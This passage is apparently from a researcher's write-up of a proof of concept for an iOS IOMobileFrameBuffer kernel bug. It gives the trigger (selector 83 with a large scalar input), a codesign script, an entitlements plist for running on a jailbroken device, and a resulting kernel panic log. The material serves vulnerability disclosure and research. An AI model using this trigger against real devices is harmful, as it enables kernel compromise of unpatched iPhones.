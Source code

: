 Now, let's build the POC. As I showed in [description_and_poc.txt](https://github.com/saaramar/IOMobileFrameBuffer_LPE_POC/blob/main/files/description_and_poc.txt), the POC can't be any simpler. All we need to do is to obtain the userclient to *AppleCLCD/IOMobileFramBuffer* and call *IOConnectCallMethod* with selector=83, and set the scalar input to be some arbitrarily large number.

We also need to take care of the required entitlement. We have two options:

1. Running our POC from the context of WebContent
2. Add the *com.apple.private.allow-explicit-graphics-priority* entitlement to our POC and run it on a jailbroken device.

Let's do the second option. We can do it easily with codesign, as follows:

```bash
saaramar@Saars-Air appleclcd_exploit % cat make.sh         
xcrun --sdk iphoneos clang -arch arm64 -framework IOKit iosurface.c exploit.c -O3 -o appleclcd_exploit
codesign -s - appleclcd_exploit --entitlement entitlements.xml  -f
saaramar@Saars-Air appleclcd_exploit % 
```

where *entitlements.xml* is:

```xml
saaramar@Saars-Air appleclcd_exploit % cat entitlements.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>com.apple.private.security.container-required</key>
    <false/>
    <key>platform-application</key>
    <true/>
    <key>com.apple.security.iokit-user-client-class</key>
    <array>
        <string>IOSurfaceRootUserClient</string>
        <string>IOMobileFramebufferUserClient</string>
        <string>IOHIDLibUserClient</string>
    </array>
    <key>com.apple.private.allow-explicit-graphics-priority</key>
    <true/>
</dict>
</plist>

saaramar@Saars-Air appleclcd_exploit % 
```

By running this on my physical iPhone X with iOS 14.6 I got the following panic:

```
  "build" : "iPhone OS 14.6 (18F72)",
  "product" : "iPhone10,3",
  "kernel" : "Darwin Kernel Version 20.5.0: Sat May  8 02:21:43 PDT 2021; root:xnu-7195.122.1~4\/RELEASE_ARM64_T8015",
  "incident" : "6CA78199-7ACE-46B1-A70C-E6C98CF23809",
  "crashReporterKey" : "c23fc969fde41f6a019ad70f23f4a4c24a0dda2a",
  "date" : "2021-07-14 10:57:36.82 +0300",
```
